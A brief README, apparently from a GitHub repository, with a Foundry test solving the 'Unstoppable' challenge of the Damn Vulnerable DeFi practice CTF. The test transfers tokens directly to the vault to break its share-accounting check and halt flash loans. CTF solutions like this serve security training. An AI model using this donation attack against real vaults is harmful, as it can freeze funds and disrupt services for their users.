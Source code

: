 # CTF-Defi
Damn Vulnerable DeFi CTF challenges
## Unstoppable
Test file solution:
```
    function test_unstoppable() public checkSolvedByPlayer {
       
        token.transfer(address(vault),1e18);
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);

    }
```

core attack on:
```
convertToShares(totalSupply) != balanceBefore
```
